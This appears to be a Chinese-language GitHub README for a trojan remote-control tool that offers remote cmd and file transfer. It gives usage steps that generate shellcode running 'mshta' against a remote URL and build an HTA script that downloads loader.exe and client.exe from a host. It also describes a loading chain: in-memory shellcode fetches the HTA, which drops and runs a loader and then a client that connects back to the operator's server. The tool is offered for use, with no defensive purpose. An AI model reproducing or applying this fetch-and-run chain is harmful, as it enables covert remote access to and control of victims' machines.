 <h1>蜡笔小新</h1>

<h3>版本</h3>
<p>1.0</p>

<h3>简介</h3>
<p>轻型远程控制软件</p>

<h3>功能</h3>
<p>1、远程 cmd</p>
<p>2、文件上传下载</p>

<h3>使用方法</h3>
<p>1、使用 shellcode\GetShellcode.py 生成 shellcode
   例子: GetShellcode.py -c "mshta http://192.168.0.1//u9V75048V41swXC4.msha" -o output.txt</p>

<p>2、使用 hta\DownloadURLFile.py 生成 hta 脚本。
   例子: DownloadURLFile.py -a 192.168.1.3 -b loader.exe -c client.exe </p>

<p>3、在 loader 项目中生成加载器
   例子: 这个需要用 vs 打开项目, 方便加载器加载客户端程序</p>

<p>4、在 trojan 项目中生成客户端和服务端程序
   例子: 这个也需要用 VS 打开项目, 之后在 Main 函数中修改需要连接的 IP 地址或者 URL, URL 连接的功能暂时没有做出来(-_-)</p>

<h3>加载流程</h3>
<p>通过内存 shellcode 远程加载 hta 脚本并运行, hta 脚本会将客户端和加载器下载到当前目录, 然后运行加载器并等待加载器完成工作, 最后运行客户端以连接服务端</p>
